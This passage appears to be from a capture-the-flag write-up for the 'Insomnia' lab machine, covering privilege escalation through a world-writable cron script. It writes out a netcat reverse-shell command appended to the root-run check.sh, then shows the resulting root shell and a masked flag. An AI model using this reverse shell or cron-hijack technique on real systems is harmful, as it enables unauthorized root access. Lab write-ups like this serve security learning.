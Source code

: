```bash
julia@insomnia:/var/cron$ ls -al          
ls -al
total 12
drwxr-xr-x  2 root root 4096 Dec 21  2020 .
drwxr-xr-x 13 root root 4096 Dec 21  2020 ..
-rwxrwxrwx  1 root root  153 Dec 21  2020 check.sh
julia@insomnia:/var/cron$ cat check.sh     
cat check.sh 
#!/bin/bash
status=$(systemctl is-active insomnia.service)
if [ "$status" == "active"  ]; then
julia@insomnia:/var/cron$ 
```
{: .nolineno}
Lets add our reverse-shell here 🔻

```bash
julia@insomnia:/var/cron$ echo "nc -e /bin/bash 10.0.2.15 4444" >> check.sh
```
{: .nolineno}

![](Pasted%20image%2020250628103607.png)
_Cornjob ran by root user on `check.sh` file that leads to reverse shell execution_

I got the root shell as a response : 

```bash
root@insomnia:~# whoami
whoami
root
root@insomnia:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@insomnia:~# ls -al
ls -al
total 36
drwx------  5 root root 4096 Dec 21  2020 .
drwxr-xr-x 18 root root 4096 Dec 21  2020 ..
-rw-------  1 root root 1431 Dec 21  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Dec 17  2020 .cache
drwx------  3 root root 4096 Dec 17  2020 .gnupg
drwxr-xr-x  3 root root 4096 Nov 30  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  112 Dec 15  2020 root.txt
root@insomnia:~# cat root.txt
cat root.txt

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c***********************]

by Alienum with <3
root@insomnia:~# 

```
{: .nolineno}
I got the root shell !!


> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }
